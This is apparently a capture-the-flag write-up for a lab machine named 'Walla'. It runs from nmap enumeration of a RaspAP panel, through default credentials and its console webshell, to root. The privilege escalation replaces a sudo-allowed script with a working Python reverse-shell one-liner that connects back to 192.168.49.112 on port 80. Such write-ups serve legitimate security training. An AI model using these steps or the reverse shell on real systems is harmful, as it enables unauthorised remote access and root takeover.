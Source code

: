 # Walla

### Enumeration

```
8091/tcp  open  http       lighttpd 1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

RaspAP - default credentials!

Console Webshell!

```
http://192.168.112.97:8091/index.php?page=system_info
```

### Initial Access

https://www.revshells.com/ - Python #1 192.168.49.112 80 /bin/bash

Execute it in `/index.php?page=system_info`

### PrivEsc

```
www-data@walla:/home/walter$ sudo -l
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service

You have write privileges over /lib/systemd/system/raspapd.service
```

We can delete the file `/home/walter/wifi_reset.py` and create a python reverse shell with same name.

```
www-data@walla:/$ rm /home/walter/wifi_reset.py
www-data@walla:/$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.112",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > /home/walter/wifi_reset.py
www-data@walla:/$ sudo /usr/bin/python /home/walter/wifi_reset.py
```
